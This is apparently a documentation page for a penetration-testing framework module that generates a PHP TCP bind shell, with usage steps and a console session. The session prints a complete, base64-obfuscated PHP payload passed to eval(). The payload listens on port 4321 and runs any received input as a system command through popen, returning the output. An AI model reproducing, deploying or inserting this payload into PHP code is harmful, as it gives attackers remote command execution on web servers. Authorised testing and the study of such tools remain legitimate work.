 ## Description

Module generates payload that creates interactive tcp bind shell by using php. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/php/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates php tcp bind shell payload

## Scenarios

```
rsf > use payloads/php/bind_tcp
rsf (PHP Bind TCP) > set rport 4321
[+] rport => 4321
rsf (PHP Bind TCP) > run
[*] Running module...
[*] Generating payload
eval(base64_decode('JHM9c29ja2V0X2NyZWF0ZShBRl9JTkVULFNPQ0tfU1RSRUFNLFNPTF9UQ1ApO3NvY2tldF9iaW5kKCRzLCIwLjAuMC4wIiw0MzIxKTtzb2NrZXRfbGlzdGVuKCRzLDEpOyRjbD1zb2NrZXRfYWNjZXB0KCRzKTt3aGlsZSgxKXtpZighc29ja2V0X3dyaXRlKCRjbCwiJCAiLDIpKWV4aXQ7JGluPXNvY2tldF9yZWFkKCRjbCwxMDApOyRjbWQ9cG9wZW4oIiRpbiIsInIiKTt3aGlsZSghZmVvZigkY21kKSl7JG09ZmdldGMoJGNtZCk7c29ja2V0X3dyaXRlKCRjbCwkbSxzdHJsZW4oJG0pKTt9fQ=='));
```
